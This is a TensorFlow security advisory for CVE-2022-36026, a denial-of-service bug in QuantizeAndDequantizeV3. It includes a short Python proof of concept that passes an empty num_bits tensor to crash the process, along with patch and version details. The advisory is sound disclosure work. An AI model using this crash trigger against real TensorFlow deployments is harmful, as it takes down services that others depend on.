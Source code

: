 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-112.md
## TFSA-2022-112: `CHECK` fail in `QuantizeAndDequantizeV3`

### CVE Number
CVE-2022-36026

### Impact
If `QuantizeAndDequantizeV3` is given a nonscalar `num_bits` input tensor, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

signed_input = True
range_given = False
narrow_range = False
axis = -1
input = tf.constant(-3.5, shape=[1], dtype=tf.float32)
input_min = tf.constant(-3.5, shape=[1], dtype=tf.float32)
input_max = tf.constant(-3.5, shape=[1], dtype=tf.float32)
num_bits = tf.constant([], shape=[0], dtype=tf.int32)
tf.raw_ops.QuantizeAndDequantizeV3(input=input, input_min=input_min, input_max=input_max, num_bits=num_bits, signed_input=signed_input, range_given=range_given, narrow_range=narrow_range, axis=axis)
```

### Patches
We have patched the issue in GitHub commit [f3f9cb38ecfe5a8a703f2c4a8fead434ef291713](https://github.com/tensorflow/tensorflow/commit/f3f9cb38ecfe5a8a703f2c4a8fead434ef291713).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
